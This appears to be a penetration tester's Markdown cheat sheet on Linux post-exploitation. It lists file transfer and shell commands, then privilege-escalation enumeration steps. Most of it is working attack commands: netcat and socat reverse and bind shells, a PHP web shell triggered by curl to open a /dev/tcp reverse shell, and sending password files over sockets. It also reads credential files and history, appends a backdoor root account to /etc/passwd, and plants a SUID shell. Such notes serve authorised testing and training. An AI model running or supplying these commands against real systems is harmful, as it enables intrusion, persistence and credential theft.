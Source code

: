 # Linux 
- Important locations
  - /bin - have binaries (ls, pwd etc.)
  - /sbin - system programs (fdisk, sysctl, etc.)
  - /etc - config files
  - /tmp - temp files
  - /usr/bin - applications (nmap, etc.)
  - /usr/share - application support and data files

# File transfer
- `nc -nv 10.10.10.10 443 < nc.exe` `nc -nlvp 443 > nc.exe`
- socat `socat TCP4-LISTEN:443,fork file:passwords.txt` `socat TCP4:10.10.10.10:443 file:received.txt,create`

# Linux Shells
Run once we get shell `python -c "import pty;pty.spawn('/bin/bash')";export TERM=xterm;stty raw -echo`

- netcat(nc)
  - Reverse shell `nc -nv 10.10.10.10 443 -e /bin/bash` 
  - Bind shell `nc -nvlp 443 -e /bin/bash`
- socat
  - Reverse shell `socat TCP4:10.10.10.10:443 EXEC:/bin/bash`
  - Listener `socat -d -d TCP4-LISTEN:443 STDOUT`
  - Bind shell `socat TCP-LISTEN:443 EXEC:/bin/bash`
  - Connect `socat - TCP4:10.10.10.10:443`
  - Encrypted shell
    - Generate cert `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt;cat bind_shell.key bind_shell.crt > bind_shell.pem`
    - Bind shell `socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
    - Connect `socat - OPENSSL:10.10.10.10:443,verify=0`

- PHP reverse shell
  -  Shell `<?php echo shell_exec($_REQUEST["cmd"])?>`
  -  Run `curl -X POST hxxp://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.4/1234 0>&1"'`

# Linux privilege escalation
- [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) for enumeration
- [GTFObins](https://gtfobins.github.io/)
- Kernal exploits [linux-exploit-suggester-2.pl](https://github.com/jondonas/linux-exploit-suggester-2)

- id; uname -a; whoami
- hostname
- `cat /etc/issue` `cat /etc/*-releas` `uname -r` `arch` 
- cat /etc/passwd
- cat `~/.*history`
- Environment variables
  - echo $PATH, $PWD, $HOME
  - `env` `printenv`
- Running process `ps aux` `ps -ef | grep root` `ps -fC apache2`
- list services `service --status-all`
- Bash history `history` `cat /home/USER/.bash_history`
- Startup enabled services `systemctl --all list-unit-files | grep enabled`
- Networking info `/sbin/route` `ip a`
- Connections `ss -anp`
- Linux firewall `/etc/iptables`
- Cron jobs `ls -lah /etc/cron*` `cat /etc/crontab` `grep "CRON" /var/log/cron.log`
- Installed apps `dpkg -l`
- Writable `find / -writable -type d 2>/dev/null`
- Unmounted devices and listing other drives `cat /etc/fstab` `/bin/lsblk` `mount`
- Load drivers `lsmod` `/sbin/modinfo libata`
- SUID files `find / -perm -u=s -type f 2>/dev/null`
- Writable /etc/passwd `echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd` `su root2` password is `evil`
- Stickybit `cp /bin/sh /tmp/sh;chmod 4755 /tmp/sh;` # now `/tmp/sh -i`
